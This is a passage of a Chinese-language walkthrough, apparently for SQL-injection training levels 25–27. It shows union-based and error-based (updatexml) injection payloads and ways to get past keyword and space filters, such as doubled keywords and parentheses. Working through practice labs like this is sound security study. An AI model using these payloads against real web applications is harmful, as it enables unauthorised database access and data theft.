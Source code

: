查询注入

```
id=1' union select 1,database(),3 limit 1,2--+
```

![image-20220922012438953](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922012438953.png)

报错注入

```
id=1' anandd updatexml(1,concat(0x7e,database(),0x7e),1) limit 1,2--+
```

![image-20220922012533986](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922012533986.png)

## 第二十六关

![image-20220922012657146](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922012657146.png)

大致意思是所有的空格和一些命令都无法使用

先尝试`'`

![image-20220922012825944](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922012825944.png)

尝试()绕过空格

```
id=1'anandd(1=1)oorr'
```

![image-20220922013808380](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922013808380.png)

报错注入

```
d=1'anandd(updatexml(1,concat(0x7e,database(),0x7e),1))oorr'
```

![image-20220922013915022](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922013915022.png)

## 第二十七关

![image-20220922014031462](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922014031462.png)

在之前的基础上select和union无法使用，但是or和and被解放了，注释被过滤了

这里尝试使用`?id=1'and(1=1)and'`进行注入，没有保存，方法可行

![image-20220922014930446](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922014930446.png)

报错注入，成功

```
updatexml(1,concat(0x7e,database(),0x7e),1)
```
